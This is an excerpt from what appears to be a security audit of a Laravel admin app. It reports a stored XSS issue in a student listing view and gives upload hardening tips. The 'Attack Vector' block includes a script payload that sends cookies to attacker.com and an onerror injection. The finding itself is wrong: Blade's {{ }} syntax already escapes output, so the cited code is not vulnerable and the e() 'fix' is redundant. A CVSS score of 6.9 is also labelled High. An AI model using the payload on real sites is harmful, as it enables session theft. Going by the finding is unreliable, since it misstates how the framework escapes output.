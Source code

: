 #### Additional Recommendations
1. Store uploaded files outside web root
2. Implement virus scanning for uploads
3. Use Content Security Policy headers
4. Add file size and dimension limits
5. Implement file access logging

---

## ⚠️ High Priority Security Issues

### 3. Cross-Site Scripting (XSS) Vulnerability
**File:** `resources/views/admin/students/index.blade.php`  
**Lines:** 1245, 1267, 1289  
**Severity:** 🟡 High  
**CVSS Score:** 6.9  

#### Issue Description
```blade
{{-- VULNERABLE CODE --}}
<div class="student-name">{{ $student->name }}</div>
<div class="student-email">{{ $student->email }}</div>
<span class="student-class">{{ $student->class }}</span>
```

#### Security Risk
- User-controlled data displayed without proper escaping
- Potential for stored XSS attacks
- Could lead to session hijacking, credential theft

#### Attack Vector
```javascript
// Malicious student name
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

// Malicious email
<img src=x onerror="alert('XSS')">
```

#### Recommended Fix
```blade
{{-- SECURE CODE --}}
<div class="student-name">{{ e($student->name) }}</div>
<div class="student-email">{{ e($student->email) }}</div>
<span class="student-class">{{ e($student->class) }}</span>

{{-- Or use HTML purifier for rich content --}}
{!! Purifier::clean($student->description) !!}
```

---
